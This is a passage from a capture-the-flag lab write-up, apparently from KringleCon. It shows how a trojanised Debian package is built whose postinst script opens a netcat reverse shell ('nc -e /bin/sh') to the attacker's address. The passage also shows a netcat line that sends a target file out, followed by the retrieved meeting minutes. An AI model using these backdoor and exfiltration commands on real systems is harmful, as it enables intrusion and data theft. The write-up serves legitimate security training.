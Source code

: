 ```bash
nc -e /bin/sh 10.6.0.2 4242
guest@3944f7bc1eff:~/debs$ chmod 775 netcat/DEBIAN/postinst 
guest@3944f7bc1eff:~/debs$ dpkg --build netcat
dpkg-deb: building package 'suriv' in 'netcat.deb'.
guest@3944f7bc1eff:~/debs$ mv netcat.deb suriv_amd64.deb
```
Rerunning the web server with a proper directory structure did the trick and I was able to establish the connection to the remote end, getting to know more the target file:
```bash
guest@3944f7bc1eff:~/debs$ mkdir -p ~/web/pub/jfrost/backdoor/
guest@3944f7bc1eff:~/debs$ cp suriv_amd64.deb ~/web/pub/jfrost/backdoor/
guest@3944f7bc1eff:~/web$ python3 -m http.server 80 2> /dev/null 1 > /dev/null &
guest@3944f7bc1eff:~/web$ nc -l -v -p 4242
listening on [any] 4242 ...
connect to [10.6.0.2] from arp_requester.guestnet0.kringlecastle.com [10.6.6.35] 52832
whoami
jfrost

pwd
/

ls
NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt
bin
boot
dev
etc
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```
I then changed the tampered deb file and made it copy out the file to the machine i was using with netcat:
```bash
guest@3944f7bc1eff:~/debs/netcat/DEBIAN$ cat postinst 
nc -w 3 10.6.0.2 4242 < /NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt
```
Once the remote end reconnected i got the target file:
```bash
guest@3944f7bc1eff:~$ nc -l -p 4242 > NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt
```
Reading through the file pointed out that Tanta Kringle recused herself from the vote.
```
Meeting Location: All gathered in North Pole Municipal Building, 1 Santa Claus Ln, North Pole

Chairman Frost calls meeting to order at 7:30 PM North Pole Standard Time.

Roll call of Board members please:
Chairman Jack Frost - Present
Vice Chairman Mother Nature - Present
```